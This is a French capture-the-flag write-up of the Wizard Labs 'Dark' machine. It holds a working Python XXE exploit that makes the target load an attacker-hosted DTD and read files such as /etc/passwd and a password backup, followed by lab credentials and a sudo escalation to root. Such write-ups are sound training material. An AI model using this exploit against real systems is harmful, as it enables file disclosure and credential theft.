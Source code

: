 ```yaml
---
title: Solution du CTF Dark de Wizard-Labs
tags: [CTF, WizardLabs]
---
```


Vader
-----

*Dark* est une machine Linux proposée sur [Wizard Labs](https://labs.wizard-security.net/) avec une difficulté donnée à 4/10.  

La machine fait tourner un serveur web avec un formulaire de contact en index :  

![Wizard-Labs Dark CTF index page XXE](/assets/img/wizard-labs/dark_index.png)

En regardant le code source de la page on voit que les données sont soumises via Ajax au format XML :  

```javascript
function XMLFunction(){
    var xml = '' +
        '<?xml version="1.0" encoding="UTF-8"?>' +
        '<root>' +
        '<name>' + $('#name').val() + '</name>' +
        '<tel>' + $('#tel').val() + '</tel>' +
        '<email>' + $('#email').val() + '</email>' +
        '<password>' + $('#password').val() + '</password>' +
        '</root>';
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.onreadystatechange = function () {
        if(xmlhttp.readyState == 4){
            console.log(xmlhttp.readyState);
            console.log(xmlhttp.responseText);
            document.getElementById('errorMessage').innerHTML = xmlhttp.responseText;

        }
    }
    xmlhttp.open("POST","process.php",true);
    xmlhttp.send(xml);
}
```

Et qui dit XML... dit potentiellement [XXE](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing) (surtout sur un CTF évidemment).  

Exploiter des failles de ce type nécessite plus de préparatifs que d'autres failles (inclusion, injection de commandes, etc) alors on se remonte les manches et c'est parti !  

&XXE;
-----

Quand on soumet des données quelconques à ce formulaire on obtient un message d'erreur en retour :  

> Sorry, yolo@nawak.tld is already registered!

On va donc placer nos injections XXE dans le champ correspondant à l'adresse email afin d'exfiltrer les données.  

J'ai repris mon exploit écrit pour le [CTF DevOops de HackTheBox]({% link _posts/2018-10-14-Solution-du-CTF-DevOops-de-HackTheBox.md %}) et l'ai adapté pour que le format du XML et sa DTD correspondent aux données attendues.  

```python
import sys

import requests
from requests.exceptions import RequestException
from netifaces import ifaddresses

if len(sys.argv) < 2:
    print("Usage: python {} filename".format(sys.argv[0]))
    exit()

my_ip = ifaddresses("tun0")[2][0]["addr"]
filename = sys.argv[1]

xml = """<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root SYSTEM "http://{}/valid.dtd">
<root>
<name></name>
<tel></tel>
<email>&xxe;</email>
<password></password>
</root>""".format(my_ip)

dtd = """<?xml version="1.0" encoding="UTF-8" ?>
<!ELEMENT root (name, tel, email, password)>
<!ENTITY xxe SYSTEM "file://{}" >
<!ELEMENT name (#PCDATA)>
<!ELEMENT tel (#PCDATA)>
<!ELEMENT email (#PCDATA)>
<!ELEMENT password (#PCDATA)>""".format(filename)

with open("valid.dtd", "w") as fd:
    fd.write(dtd)

try:
    response = requests.post(
        "http://10.1.1.30/process.php",
        data=xml,
        headers={"content-type": "application/xml"}
    )

except RequestException as exception:
    print("Error occurred:", exception)
else:
    print(response.text)
```

On utilisera un serveur web quelconque (*python3 -m http.server* fait parfaitement l'affaire) pour héberger le fichier DTD qui est automatiquement modifié par l'exploit.  

On peut par exemple récupérer le fichier */etc/passwd*.  

```plain
$ python3 exploit.py /etc/passwd
Sorry, root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:106:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:107::/var/run/dbus:/bin/false
landscape:x:104:110::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
dark:x:1000:1000:Dark Lord,,,:/home/dark:/bin/bash
dhcpd:x:106:114::/var/run:/bin/false
lord:x:1001:1001:,,,:/home/lord:/bin/bash
 is already registered
```

On peut voir deux utilisateurs sur le système : *dark* et *lord*.  

J'ai tenté de récupérer les clés privées SSH de ces utilisateurs mais soit le fichier n'est pas présent, soit les permissions ne permettent pas d'y accéder... Il est temps de fouiller un peu plus sur ce serveur web.  

```plain
/img (Status: 301)
/js (Status: 301)
/backup (Status: 301)
/process.php (Status: 200)
```

*Gobuster* rapporte un fichier *backup* qui contient juste le path */home/lord/password\_backup.txt*.  

Grace à notre exploit on peut dumper ce fichier qui contient le mot de passe SSH pour *lord* : *sunnysunshine!5*.  

G0t r00t
--------

On trouve dans le home de l'utilisateur le premier flag ainsi qu'une clé dont on ignore le but :  

```plain
lord@dark:~$ cat user.txt
d38f--- snip ---d422

lord@dark:~$ cat key
jdhauioh38qhdu
```

Toutefois en cherchant les fichiers de l'utilisateur *lord* (avec *find / -type f -user lord -not -path '/proc/\*' 2> /dev/null*) on trouve un binaire à un emplacement incongru :  

```plain
-rwx--x--x 1 lord lord 8664 Oct  6 12:16 /var/tmp/locker
```

Donnons lui ce qu'il demande :  

```plain
lord@dark:~$ /var/tmp/locker
Usage: <key>
lord@dark:~$ /var/tmp/locker jdhauioh38qhdu
Checking License: jdhauioh38qhdu
dark password = supereasypassword101if
```

Grace à ce mot de passe on peux devenir *dark* via *su*. Cet utilisateur fait partie du groupe *sudo*, voyons voir ce que l'on peut faire :  

```plain
dark@dark:~$ sudo -l
[sudo] password for dark:
Matching Defaults entries for dark on dark:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User dark may run the following commands on dark:
    (ALL : ALL) ALL
dark@dark:~$ sudo su
root@dark:/home/dark# cat /root/root.txt
57e8--- snip ---632d3
```

Game over
---------

Toujours sympa ces petites failles XXE, pour le reste du très basique.  

Merci à *sahay* pour la box et [@h4d3sw0rm](https://twitter.com/h4d3sw0rm) pour *Wizard Labs*.

*Published November 17 2020 at 13:48*
